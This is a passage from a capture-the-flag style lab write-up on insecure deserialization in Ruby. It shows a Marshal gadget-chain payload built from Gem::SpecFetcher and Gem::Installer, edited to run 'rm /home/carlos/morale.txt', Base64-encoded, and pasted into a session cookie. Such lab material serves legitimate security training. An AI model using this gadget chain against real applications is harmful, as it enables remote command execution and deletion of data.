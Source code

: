 ```

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

Changes made: 

- Last two lines to puts Base64.encode64(payload)
- User line `rs.instance_variable_set('@git_set', "id")` to inject the payload `rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")`. 

**5.** Run it. You can use [https://onecompiler.com/ruby/](https://onecompiler.com/ruby/)


![Insecure deserialization](../img/indes_24.png)

**6.** Paste the generated payload into the session cookie in the repeater and have sent the request.

![Insecure deserialization](../img/indes_25.png)
